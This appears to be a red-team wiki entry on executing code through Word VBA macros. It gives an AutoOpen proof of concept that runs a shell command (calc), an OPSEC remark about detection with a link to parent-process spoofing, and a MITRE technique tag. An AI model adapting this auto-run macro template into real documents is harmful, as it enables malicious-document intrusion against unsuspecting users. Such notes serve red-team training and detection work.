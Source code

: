 # VBA
You can create a macro in a Word document by going to **View > Macros > Create**.  Change the "Macros in" field from "All active templates and documents" to "Document 1".

Trigger Functions
* AutoOpen


PoC.vb
``````vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
``````

#OPSEC Word spawning a process highly suspicious [[Parent-Process-Spoofing (PPS)]]


## Tools
########
########

```meta
ttp: T1059.005
internal: false
requirements: 
results: user, admin
description: VBA execution via Office
```